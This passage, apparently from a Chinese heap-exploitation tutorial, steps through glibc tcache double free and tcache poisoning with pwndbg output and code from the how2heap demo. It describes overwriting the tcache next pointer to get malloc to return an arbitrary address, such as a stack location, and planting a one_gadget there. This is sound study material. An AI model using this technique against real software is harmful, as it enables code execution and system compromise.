 ```bash
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x20)   tcache_entry[0]: 0x55a661cd5260 --> 0x55a661cd5260 (overlap chunk with 0x55a661cd5250(freed) )

```

我们直接free两次同一个chunk，就能直接得到两个指向同一块内存区域的指针，这无疑比正常在fastbin下的double free简易许多

接着我们看下tcache_poisoning，简单来说tcache_poisoning就是一个通过覆盖tcache_next就直接可以malloc到任意地址去将其覆盖为one_gadget或是别的东西去进行利用的一个很万金油的用法，我们调试下how2heap给的程序

```bash
pwndbg> heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x55a464be82e0 (size : 0x20d20) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x90)   tcache_entry[7]: 0x55a464be8260

```

它先往tcache里面放了一个0x80的chunk，然后我们再看下修改了tcache_next后的tcache_entry是怎么样的

```bash
────────────────────────────────────[ SOURCE (CODE) ]────────────────────────────────────────────
   20 	fprintf(stderr, "Now the tcache list has [ %p ].\n", a);
   21 	fprintf(stderr, "We overwrite the first %lu bytes (fd/next pointer) of the data at %p\n"
   22 		"to point to the location to control (%p).\n", sizeof(intptr_t), a, &stack_var);
   23 	a[0] = (intptr_t)&stack_var;
   24 
 ► 25 	fprintf(stderr, "1st malloc(128): %p\n", malloc(128));
   26 	fprintf(stderr, "Now the tcache list has [ %p ].\n", &stack_var);
   27 
   28 	intptr_t *b = malloc(128);
   29 	fprintf(stderr, "2nd malloc(128): %p\n", b);
   30 	fprintf(stderr, "We got the control\n");
────────────────────────────────────────[ STACK ]───────────────────────────────────────────────
00:0000│ rdx rsp  0x7ffe99bc1bb0 —▸ 0x55a4635689a0 (__libc_csu_init) ◂— push   r15
01:0008│          0x7ffe99bc1bb8 —▸ 0x55a464be8260 —▸ 0x7ffe99bc1bb0 —▸ 0x55a4635689a0 (__libc_csu_init) ◂— push   r15
02:0010│          0x7ffe99bc1bc0 —▸ 0x7ffe99bc1cb0 ◂— 0x1
03:0018│          0x7ffe99bc1bc8 ◂— 0xad94ca33a5db2a00
04:0020│ rbp      0x7ffe99bc1bd0 —▸ 0x55a4635689a0 (__libc_csu_init) ◂— push   r15
05:0028│          0x7ffe99bc1bd8 —▸ 0x7f6dd0a631c1 (__libc_start_main+241) ◂— mov    edi, eax
06:0030│          0x7ffe99bc1be0 ◂— 0x40000
07:0038│          0x7ffe99bc1be8 —▸ 0x7ffe99bc1cb8 —▸ 0x7ffe99bc2912 ◂— 0x74632f656d6f682f ('/home/ct')
pwndbg> heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
```